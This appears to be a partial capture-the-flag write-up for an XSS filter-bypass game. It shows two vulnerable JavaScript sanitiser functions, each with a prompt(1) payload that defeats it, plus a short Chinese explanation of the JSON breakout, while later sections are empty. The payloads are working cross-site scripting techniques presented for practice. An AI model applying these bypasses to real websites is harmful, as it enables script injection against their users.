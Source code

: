 
### A
```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
```
```
prom'pt(1)
```
### B
```
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}
```
```
"(prompt(1))in"

源码会变成
var data = {"action":"login","message":"Welcome back, "(prompt(1))in"."};

in操作符，虽然会提示语法错误，但prompt(1)依旧可以执行，至于外面加圆括号是因为前面有字符串
```
### C
```

```
```
```
### D
### E
### F
